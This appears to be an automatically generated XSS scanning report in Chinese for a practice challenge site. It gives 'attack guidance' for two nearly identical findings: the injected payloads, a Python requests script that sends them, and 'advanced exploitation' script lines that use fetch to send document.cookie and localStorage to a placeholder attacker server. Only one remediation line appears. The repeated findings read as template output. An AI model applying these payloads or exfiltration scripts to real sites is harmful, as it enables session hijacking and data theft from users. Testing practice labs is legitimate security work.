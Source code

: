 #### 攻击指导
1. 手动攻击步骤：
   - 访问目标URL: https://xss-challenge-tour.bachang.org/level3.php?keyword=%3E%3Cscript%3Ealert%281%29%3C%2Fscript%3E&submit=%E6%90%9C%E7%B4%A2
   - 在参数 keyword 中注入以下payload:
   ```javascript
   <img src=x onerror=alert(1)>
   ```
2. 自动化攻击：
   ```python
   import requests
   url = 'https://xss-challenge-tour.bachang.org/level3.php?keyword=%3E%3Cscript%3Ealert%281%29%3C%2Fscript%3E&submit=%E6%90%9C%E7%B4%A2'
   params = {'keyword': '<img src=x onerror=alert(1)>'}
   response = requests.get(url, params=params)
   ```

3. 高级利用：
   ```javascript
   // 窃取Cookie
   <script>fetch('http://攻击者服务器/collect?cookie='+document.cookie)</script>
   // 窃取LocalStorage
   <script>fetch('http://攻击者服务器/collect?data='+JSON.stringify(localStorage))</script>
   ```

### XSS 漏洞
- URL: https://xss-challenge-tour.bachang.org/level3.php?keyword=%3E%3Cscript%3Ealert%281%29%3C%2Fscript%3E&submit=%E6%90%9C%E7%B4%A2
- 参数: keyword
- 严重程度: high
- 验证载荷: "><script>alert(1)</script>
- 修复建议: 对所有用户输入进行HTML编码，使用现代框架的XSS防护机制，实施内容安全策略(CSP)

#### 攻击指导
1. 手动攻击步骤：
   - 访问目标URL: https://xss-challenge-tour.bachang.org/level3.php?keyword=%3E%3Cscript%3Ealert%281%29%3C%2Fscript%3E&submit=%E6%90%9C%E7%B4%A2
   - 在参数 keyword 中注入以下payload:
   ```javascript
   "><script>alert(1)</script>
   ```
2. 自动化攻击：
   ```python
   import requests
   url = 'https://xss-challenge-tour.bachang.org/level3.php?keyword=%3E%3Cscript%3Ealert%281%29%3C%2Fscript%3E&submit=%E6%90%9C%E7%B4%A2'
   params = {'keyword': '"><script>alert(1)</script>'}
   response = requests.get(url, params=params)
   ```

3. 高级利用：
   ```javascript
   // 窃取Cookie
   <script>fetch('http://攻击者服务器/collect?cookie='+document.cookie)</script>
   // 窃取LocalStorage
   <script>fetch('http://攻击者服务器/collect?data='+JSON.stringify(localStorage))</script>
   ```
